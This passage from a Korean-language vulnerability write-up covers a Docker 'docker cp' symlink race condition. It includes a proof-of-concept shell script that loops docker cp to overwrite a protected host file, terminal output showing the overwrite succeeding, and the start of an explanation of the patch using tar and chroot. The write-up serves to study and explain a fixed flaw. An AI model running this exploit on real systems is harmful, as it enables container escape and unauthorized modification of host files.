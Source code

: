 쓰기도 읽기와 원리는 같습니다. 아래 쉘 스크립트를 봅시다.

**write.sh**

```bash
#!/bin/sh

# Build and run the image.
docker build -t poc .
container_id=$(docker run --rm -d poc)

echo "SUCCESS -- HOST FILE CHANGED" > localpath

# Now continually try to copy the files.
i=0
while [ $i -lt 500 ]
do
	docker cp localpath "${container_id}:/totally_safe_path/w00t_w00t_im_a_flag"
	i=$(($i + 1))
done
```

`read.sh` 에서는 `docker cp` 가 컨테이너에서 호스트 파일시스템으로의 복사를 명시했다면, 이번에는 호스트 파일시스템에서 컨테이너로의 복사를 명시합니다. 레이스 컨디션 공격 성공 시 `localpath` 파일에 적혀있는 `SUCCESS -- HOST FILE CHANGED`  문자열이 호스트 파일시스템의 `/w00t_w00t_im_a_flag` 파일에 덮어씌워질 것입니다.

이번에도 마찬가지로 B 상태로 `FollowSymlinkInScope` 함수가 수행되고, 실제 복사가 일어나기 직전에 A 상태가 된다면 레이스 컨디션 공격에 성공하게 됩니다.

쉘 스크립트를 실행하고 결과를 확인하면 다음과 같습니다.

```bash
$ cat /w00t_w00t_im_a_flag
FAILED -- HOST FILE UNCHANGED
$ echo "SUCCESS -- HOST FILE CHANGED" > /w00t_w00t_im_a_flag
bash: /w00t_w00t_im_a_flag: Permission denied
$ ls
Dockerfile  symlink_swap.c  write.sh
$ ./write.sh  # Exploit (will take some time)
$ cat /w00t_w00t_im_a_flag
SUCCESS -- HOST FILE CHANGED
```

쓰기 권한이 없는 호스트 파일시스템의 `/w00t_w00t_im_a_flag` 에 성공적으로 문자열을 덮어썼습니다.

# Patch

패치를 이해하기 위해서는 크게 두 가지를 알아야 합니다.

1. `docker cp` 의 상세 메커니즘
2. `chroot` 개념

상세 메커니즘이라고는 했지만, 하나만 알고 넘어가면 됩니다. `docker cp` 명령 수행 시 `SRC_PATH` 에 해당하는 파일 혹은 폴더를 `tar` 압축 후 `DEST_PATH` 에 `untar` 하여 복사합니다.

`chroot` 는 change root directory로, 말 그대로 루트 디렉토리 `/` 를 바꿉니다. 특정 프로세스(+자식 프로세스)의 루트 디렉토리를 주어진 경로로 바꾸는 명령입니다. 직관적 이해를 돕기 위한 리눅스에서의 `chroot` 명령 사용 예는 다음과 같습니다.
